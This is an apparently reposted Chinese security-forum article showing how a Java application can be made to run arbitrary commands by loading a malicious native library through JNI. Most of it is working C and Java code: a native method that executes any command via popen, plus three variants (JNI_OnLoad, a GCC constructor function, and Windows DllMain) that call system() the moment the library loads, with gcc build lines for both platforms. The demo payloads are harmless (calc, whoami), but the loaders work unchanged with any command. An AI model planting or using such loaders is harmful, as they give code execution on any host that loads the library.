





# 浅谈Java-JNI如何加载动态库时直接执行恶意代码-先知社区

> **来源**: https://xz.aliyun.com/news/16528  
> **文章ID**: 16528

---

## JNI前言

Jni全称java native interface，可以将它分为三部分，java，native代表当前程序运行的本地环境，一般指windows/linux，而这些操作系统都是通过C/C++实现的，所以native通常也指C/C++语言，interface代表java跟native两者之间的通信接口，一个Native Method就是一个java调用非java代码的接口，jni可以实现java和C/C++通信。

## 利用JNI加载动态链接调用函数RCE

利用Jni加载动态链接RCE的步骤：

1. 编写一个 java 文件，其中定义一个 native 方法，然后使用 javac 编译得到 .class 文件
2. 使用 javah 进行对 .class 文件进行处理，得到编写 C 代码所需的头文件。
3. 编写命令执行的 C 语言实现
4. 将编写的 C 代码编译为 lib 或者 dll（注意jdk版本要与目标机器的jdk保持一致）
5. 编写一个 Java 类调用 System.loadLibrary 方法加载 dll 文件。、

### 编译一个 java 文件定义native方法

准备 EvilClass.java

```
public class EvilClass  {
    public static native String execCmd(String cmd);
}

```

在当前目录运行

```
javac EvilClass.java

```

### 生成C代码所需的头文件

java低版本

```
javah -jni EvilClass.java
```

java10之后用法 `-h .` 表示将生成的 JNI 头文件保存到当前目录。

```
javac -h . EvilClass.java

```

这个命令用于为 Java 类 `EvilClass.java` 中声明的本地方法生成 C 语言头文件  
EvilClass.h

```
/* DO NOT EDIT THIS FILE - it is machine generated */
#include <jni.h>
/* Header for class EvilClass */

#ifndef _Included_EvilClass
#define _Included_EvilClass
#ifdef __cplusplus
extern "C" {
#endif
/*
 * Class:     EvilClass
 * Method:    execCmd
 * Signature: (Ljava/lang/String;)Ljava/lang/String;
 */
JNIEXPORT jstring JNICALL Java_EvilClass_execCmd
  (JNIEnv *, jclass, jstring);

#ifdef __cplusplus
}
#endif
#endif

```

### 编写C文件包含头文件

上面的头文件中生成了一个`Java_EvilClass_execCmd`的C函数，接下来，我们给出C语言的实现，以实现上面的函数：

编写EvilClass.c实现了接受cmd，执行系统命令并且包含了之前的头文件，可以让java调用

```
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>
#include "EvilClass.h"

int execmd(const char *cmd, char *result)
{
    char buffer[1024*12];              //定义缓冲区
    FILE *pipe = popen(cmd, "r"); //打开管道，并执行命令
    if (!pipe)
        return 0; //返回0表示运行失败

    while (!feof(pipe))
    {
        if (fgets(buffer, 128, pipe))
        { //将管道输出到result中
            strcat(result, buffer);
        }
    }
    pclose(pipe); //关闭管道
    return 1;      //返回1表示运行成功
}
JNIEXPORT jstring JNICALL Java_EvilClass_execCmd(JNIEnv *env, jclass class_object, jstring jstr)
{

    const char *cstr = (*env)->GetStringUTFChars(env, jstr, NULL);
    char result[1024 * 12] = ""; //定义存放结果的字符串数组
    if (1 == execmd(cstr, result))
    {
       // printf(result);
    }

    char return_messge[100] = "";
    strcat(return_messge, result);
    jstring cmdresult = (*env)->NewStringUTF(env, return_messge);
    //system();

    return cmdresult;
}

```

linux编译生成对应动态链接库文件

```
gcc -fPIC -I $JAVA_HOME/include  -I $JAVA_HOME/include/linux -shared -o libcmd.so EvilClass.c

```

windows下使用

```
gcc -fPIC -I "%JAVA_HOME%\include" -I "%JAVA_HOME%\include\win32" -shared -o libcmd.dll EvilClass.c

```

linux实际命令编译生成so文件

```
gcc -fPIC -I"/usr/local/java/jdk1.8.0_202/include" -I "/usr/local/java/jdk1.8.0_202/include/linux" -shared -o libcmd.so EvilClass.c

```

window 实际命令编译生成dll文件

```
gcc -fPIC -I D:\Progra~1\Java\jdk1.8.0_65\include  -I D:\Progra~1\Java\jdk1.8.0_65\include\win32 -shared -o libcmd.dll EvilClass.c

```

对应的头文件可以在jdk的 `inlude` 目录下参考



### 加载 so 文件

后续使用 `System.loadLibrary("libname");` 或 `System.load("/libpath")` 加载即可，注意前者是在`java.library.path`中找dll，后者要用完整的路径自定义so，加载完就可以正常调用对应的native方法了

```
public class Exp {  
    public static void main(String[] args) {  
        System.out.println(System.getProperty("java.library.path"));  
        System.loadLibrary("libcmd");  
        EvilClass example = new EvilClass();  
        String res= example.execCmd("whoami"); // 调用native方法  
        System.out.println(res);  
    }}

```

> 这个java.library.path是java搜索共享库的路径，如果用loadLibrary方法的话，他是不能带路径的，只能从java.library.path中搜索并加载，所以要用loadLibrary方法加载dll的话需要确保dll在搜寻路径下面

执行成功RCE



## 深入探究JNI的利用：如何在加载动态链接库时直接执行恶意代码

我们上面实现了调用so加载恶意方法，然后调用恶意方法实现rce。那么我们思考一下能不能跳过调用恶意函数，加载的时候就可以直接RCE？  
有以下三种方法

### 利用 JNI\_OnLoad

`JNI_OnLoad` 函数确实是一个可选的 JNI 函数，用于在本地库被加载到 JVM 时执行初始化工作。这个函数在 Java 程序调用本地方法之前会被自动调用一次

我们编写c代码

```
#include <stdlib.h>
#include <jni.h>
JNIEXPORT jint JNICALL JNI_OnLoad(JavaVM *vm, void *reserved) {

    system("calc");
    //system("touch success");
    return JNI_VERSION_1_8;
}

```

然后生成dll动态链接

```
gcc -fPIC -I D:\Progra~1\Java\jdk1.8.0_65\include  -I D:\Progra~1\Java\jdk1.8.0_65\include\win32 -shared -o libcmd.dll EvilClass.c

```

写java代码加载dll文件成功RCE

```
public class Exp {  

    static {  
        System.loadLibrary("libcmd");  
    }    public static void main(String[] args) {  

    }}

```



### 利用 `__attribute__((constructor))`

`__attribute__((constructor))` 是 GCC 和 Clang 编译器提供的一个扩展语法，它允许标记一个函数为**构造函数**，该函数会在程序启动时自动执行。更具体地说，这种函数会在程序的 `main()` 函数执行之前，或者**在动态链接库加载时被自动调用**

编写c代码

```
#include <stdio.h>
#include <stdlib.h>


void __attribute__((constructor)) myInitFunction() {
    // 在加载动态链接库时执行特定代码
    system("calc");
}

```

然后生成dll动态链接

```
gcc -fPIC -I D:\Progra~1\Java\jdk1.8.0_65\include  -I D:\Progra~1\Java\jdk1.8.0_65\include\win32 -shared -o libcmd.dll EvilClass.c

```

写java代码加载dll文件成功RCE

```
public class Exp {  

    static {  
        System.loadLibrary("libcmd");  
    }    public static void main(String[] args) {  

    }}

```

成功在加载时候RCE



### windows下利用DLLMain

`DLLMain`是Windows动态链接库的入口点函数，在DLL加载和卸载时会被自动调用。

编写c代码

```
#include <Windows.h>
#include <stdlib.h>
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)

{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:

        // 在DLL加载时执行特定代码

        system("echo 'Rce Successfully!'");
        break;

    case DLL_PROCESS_DETACH:

        // 在DLL卸载时执行特定代码
        break;

    case DLL_THREAD_ATTACH:

        // 在线程连接到DLL时执行特定代码
        break;

    case DLL_THREAD_DETACH:

        // 在线程从DLL断开时执行特定代码
        break;
    }
    return TRUE;
}

```

编译

```
gcc -fPIC -I D:\Progra~1\Java\jdk1.8.0_65\include  -I D:\Progra~1\Java\jdk1.8.0_65\include\win32 -shared -o libcmd.dll EvilClass.c

```

在加入动态链接时成功RCE

```
public class Exp {  

    static {  
        System.loadLibrary("libcmd");  
    }    public static void main(String[] args) {  

    }}

```


